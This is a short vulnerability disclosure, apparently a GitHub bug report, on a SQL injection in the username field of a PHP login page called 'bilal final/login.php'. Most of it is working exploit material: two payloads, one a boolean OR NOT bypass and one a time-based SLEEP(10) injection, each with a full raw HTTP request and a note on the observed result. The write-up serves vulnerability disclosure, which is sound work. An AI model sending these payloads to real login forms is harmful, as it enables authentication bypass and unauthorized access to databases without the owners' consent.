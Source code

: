 BUG_Author:saintone98

Vulnerability File: /bilal final/login.php

POST parameter 'username' exists SQL injection vulnerability

Payload1: username=1'+OR+NOT+1207%3D1206%23&password=2

```
POST /bilal%20final/login.php HTTP/1.1
Host: localhost
Content-Length: 44
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
Accept: */*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost/bilal%20final/
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: PHPSESSID=2vcgmn9u7h75h5jbjdi1d2e871
Connection: close

username=1'+OR+NOT+1207%3D1206%23&password=2
```

An error occurred in the sql statement

![image](https://github.com/saintone98/picture/blob/main/error.png)

Payload2: username=1'+AND+(SELECT+2+FROM+(SELECT(SLEEP(10)))a)--+b&password=2

```
POST /bilal%20final/login.php HTTP/1.1
Host: localhost
Content-Length: 67
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
Accept: */*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost/bilal%20final/
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: PHPSESSID=2vcgmn9u7h75h5jbjdi1d2e871
Connection: close

username=1'+AND+(SELECT+2+FROM+(SELECT(SLEEP(10)))a)--+b&password=2
```

The server's response time is 10 seconds

![image](https://github.com/saintone98/picture/blob/main/tenSec.png)

